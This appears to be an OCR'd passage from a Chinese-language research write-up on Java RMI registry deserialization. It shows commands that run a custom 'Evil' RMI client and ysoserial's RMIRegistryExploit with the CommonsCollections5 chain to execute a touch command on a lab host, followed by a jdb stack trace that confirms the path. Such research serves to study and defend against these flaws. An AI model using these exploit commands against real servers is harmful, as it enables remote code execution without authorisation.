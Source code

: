 ```java
-Djava.rmi.server.hostname=192.168.65.20 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

在192.168.65.20上:

$ ls -1
EvilRMIRegistryClientWithBadAttributeValueExpException3.class
GeneralInvocationHandler3.class
commons-collections-3.1.jar
ysoserial-0.0.6-SNAPSHOT-all.jar

java_8_232 \
-cp "commons-collections-3.1.jar:." \
EvilRMIRegistryClientWithBadAttributeValueExpException3 192.168.65.23 1099 \
"/bin/touch /tmp/scz_is_here"

客户端抛出异常:

Caused by: java.lang.ClassNotFoundException: GeneralInvocationHandler3 (no security manager: RMI class loader disabled)

在192.168.65.20上:

java_8_232 \
-cp ysoserial-0.0.6-SNAPSHOT-all.jar \
ysoserial.exploit.RMIRegistryExploit 192.168.65.23 1099 CommonsCollections5 \
"/bin/touch /tmp/scz_is_here"

客户端抛出异常:

Caused by: java.rmi.AccessException: Registry.Registry.bind disallowed; origin /192.168.65.20 is non-local host

虽然两次客户端命令都得到异常，但每次都得手了。第一次客户端命令使用的
InvocationHandler是服务端找不到的GeneralInvocationHandler3，服务端流程不会
到达RegistryImpl.checkAccess()。第二次客户端命令使用的InvocationHandler是
AnnotationInvocationHandler，服务端能找到，服务端流程会到达
RegistryImpl.checkAccess()。后面第10小节会细讲，这里用断点简单确认一下:

java_8_40 -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-Djava.rmi.server.hostname=192.168.65.20 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in sun.rmi.registry.RegistryImpl.checkAccess

  [1] sun.rmi.registry.RegistryImpl.checkAccess (RegistryImpl.java:244), pc = 0
  [2] sun.rmi.registry.RegistryImpl.bind (RegistryImpl.java:179), pc = 2
  [3] sun.rmi.registry.RegistryImpl_Skel.dispatch (null), pc = 153
  [4] sun.rmi.server.UnicastServerRef.oldDispatch (UnicastServerRef.java:410), pc = 100
  [5] sun.rmi.server.UnicastServerRef.dispatch (UnicastServerRef.java:268), pc = 31
  [6] sun.rmi.transport.Transport$1.run (Transport.java:200), pc = 23
  [7] sun.rmi.transport.Transport$1.run (Transport.java:197), pc = 1
  [8] java.security.AccessController.doPrivileged (native method)
  [9] sun.rmi.transport.Transport.serviceCall (Transport.java:196), pc = 157
  [10] sun.rmi.transport.tcp.TCPTransport.handleMessages (TCPTransport.java:568), pc = 185
  [11] sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0 (TCPTransport.java:826), pc = 685
  [12] sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$78 (TCPTransport.java:683), pc = 1
  [13] sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$1.1433130086.run (null), pc = 4
```